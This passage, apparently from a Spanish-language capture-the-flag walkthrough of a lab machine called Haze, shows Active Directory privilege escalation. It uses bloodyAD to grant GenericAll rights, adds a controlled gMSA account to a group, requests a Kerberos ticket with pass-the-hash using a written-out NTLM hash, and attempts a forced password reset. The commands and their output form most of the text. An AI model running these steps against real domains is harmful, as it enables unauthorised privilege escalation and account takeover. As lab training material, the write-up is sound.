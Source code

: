 Utilizaremos `bloodyAD` para formar parte de este grupo y aprovechar estos derechos

> Debido al `Clean Up`, posiblemente necesites volver a asignar a `Haze-IT-Backup` como propietario de `Support_Services` para poder hacer los siguientes pasos
{: .notice--danger}

Como somos propietarios del grupo `Support_Services`, tenemos control sobre él. Comenzaremos asignando derechos `GenericAll` a la cuenta `gMSA` que controlamos

~~~ bash
KRB5CCNAME=Haze-IT-Backup.ccache bloodyAD --host dc01.haze.htb -d haze.htb -k --dc-ip 10.10.11.61 add genericAll Support_Services 'Haze-IT-Backup$'
[+] Haze-IT-Backup$ has now GenericAll on Support_Services
~~~

Con estos derechos podremos agregar usuarios al grupo, lógicamente ahora agregaremos la cuenta que controlamos

~~~ bash
KRB5CCNAME=Haze-IT-Backup.ccache bloodyAD --host dc01.haze.htb -d haze.htb -k --dc-ip 10.10.11.61 add groupMember Support_Services 'Haze-IT-Backup$'
[+] Haze-IT-Backup$ added to Support_Services
~~~

> En Active Directory (AD), los **privilegios de un usuario están reflejados en su TGT (Ticket Granting Ticket)**, debido a que los TGTs guardan la siguiente información: 
> 	- El `SID` del usuario, de los grupos a los que pertenece
> 	- Los privilegios y derechos del usuario o los grupos de usuario
> 	- Etc.
>
{: .notice--info}

Volveremos a solicitar un nuevo ticket para la cuenta `Haze-IT-Backup$`

~~~ bash
getTGT.py haze.htb/Haze-IT-Backup -hashes :4de830d1d58c14e241aff55f82ecdba1 -dc-ip 10.10.11.61
~~~


## (Failed) Abusing `ForceChangePassword`

Si intentamos abusar del derecho que nos permitiría cambiar la contraseña del usuario `edward.martin`, veremos una restricción de políticas de contraseña

~~~ bash
KRB5CCNAME=Haze-IT-Backup.ccache bloodyAD --host dc01.haze.htb -d haze.htb -k --dc-ip 10.10.11.61 set password edward.martin 'Password123!'

...
...
Password can't be changed before -2 days, 23:56:11.965885 because of the minimum password age policy.
~~~


## Shadow Credentials
